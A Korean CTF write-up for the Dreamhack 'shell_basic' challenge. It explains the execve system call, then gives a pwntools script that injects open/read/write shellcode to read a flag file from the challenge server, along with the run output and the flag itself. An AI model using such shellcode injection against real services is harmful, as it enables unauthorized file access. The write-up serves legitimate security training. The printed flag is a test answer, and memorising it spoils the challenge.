 ## shell_basic
> 문제 URL: https://dreamhack.io/wargame/challenges/410  
> 입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다. main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다. flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.

### **execve 시스템 콜**

`execve`는 새로운 프로그램을 실행하는 시스템 호출입니다. 이 호출은 현재 프로세스의 주소 공간을 새로운 프로그램으로 교체하여 실행합니다. 이를 통해, 현재 실행 중인 프로세스는 종료되지 않고 새로운 프로그램을 실행합니다.

#### **함수 시그니처:**
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

- `pathname`: 실행할 프로그램의 경로를 지정하는 문자열입니다.
- `argv`: 프로그램에 전달할 인자 배열입니다. `argv[0]`은 일반적으로 프로그램의 이름이 됩니다.
- `envp`: 프로그램에 전달할 환경 변수 배열입니다.

#### **동작 원리:**
- `execve`를 호출하면, 현재 프로세스의 메모리 공간(코드, 데이터, 힙 등)은 새로운 프로그램으로 교체됩니다.
- 호출이 성공하면, 새로운 프로그램이 실행되며, 그 후의 코드(즉, `execve` 호출 이후의 코드는 실행되지 않습니다).
- 호출이 실패하면, -1을 반환하고 `errno`에 오류 코드가 설정됩니다.

#### **예시 코드:**
```c
#include <unistd.h>

int main() {
    char *argv[] = {"/bin/ls", "-l", NULL};  // 실행할 프로그램과 인자
    char *envp[] = {NULL};  // 환경 변수

    // /bin/ls 프로그램을 실행
    execve("/bin/ls", argv, envp);

    // execve 호출이 성공하면 이 아래 코드는 실행되지 않음
    return 0;
}
```

### Solve 😈
```python
from pwn import *

# 원격 서버에 연결
remote_host = "host1.dreamhack.games"
remote_port = 17445
p = remote(remote_host, remote_port)

# 아키텍처를 64비트로 설정 (uname -m 입력 시 x86_64인 경우)
context.arch = "amd64"

# 읽고 싶은 파일 경로
file_path = "/home/shell_basic/flag_name_is_loooooong"

# 쉘코드 생성
# 파일 열기
shellcode = shellcraft.open(file_path)

# 파일을 읽어오는 부분 (파일 디스크립터는 rax에 저장)
# 파일에서 0x30 바이트를 읽어서 rsp에 저장
shellcode += shellcraft.read('rax', 'rsp', 0x30)

# 읽은 내용을 표준 출력(stdout)에 출력
shellcode += shellcraft.write(1, 'rsp', 0x30)

# 쉘코드를 어셈블리 코드로 변환
compiled_shellcode = asm(shellcode)

# 생성된 쉘코드를 payload로 설정
payload = compiled_shellcode

# 원격 서버로 쉘코드를 전송
p.sendlineafter("shellcode: ", payload)

# 서버가 출력하는 데이터를 읽어서 출력 (최대 48바이트)
flag_data = p.recv(0x30)
print(flag_data)

```

```bash
┌──(root💀kali)-[~/dreamhack/shell_basic]
└─# python3 ./shell_basic.py                                                                                       1 ⚙
[+] Opening connection to host1.dreamhack.games on port 17445: Done
/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
b'DH{ca562d7cf1db6c55cb11c4ec350a3c0b}\nong\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Closed connection to host1.dreamhack.games port 17445
```